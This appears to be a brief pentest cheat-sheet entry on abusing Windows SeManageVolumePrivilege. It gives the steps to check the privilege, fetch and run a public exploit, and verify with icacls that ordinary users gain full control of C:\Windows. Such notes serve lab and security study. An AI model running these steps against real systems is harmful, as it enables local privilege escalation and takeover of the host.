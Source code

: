 ## What ?
Allows volume-level management operations like locking volumes, defragmentation, volume dismount, or setting valid data length. It is enforced by the file system driver using FSCTL operations and is mainly used by disk management tools.

### How to ?
Check privilege
```
whoami /priv
```

#### 
Download this [exploit](https://github.com/CsEnox/SeManageVolumeExploit) for SeManageVolume Privilege

Run exploit
```
\SeManageVolumeExploit.exe 
```
Check permissions after running exploit
```powershell
C:\xampp\htdocs\uploads>icacls C:/Windows
C:/Windows NT SERVICE\TrustedInstaller:(F)
           NT SERVICE\TrustedInstaller:(CI)(IO)(F)
           NT AUTHORITY\SYSTEM:(M)
           NT AUTHORITY\SYSTEM:(OI)(CI)(IO)(F)
           BUILTIN\Users:(M)
           BUILTIN\Users:(OI)(CI)(IO)(F)
```
Remarks: User has full permissions on the Windows Folder

####

####
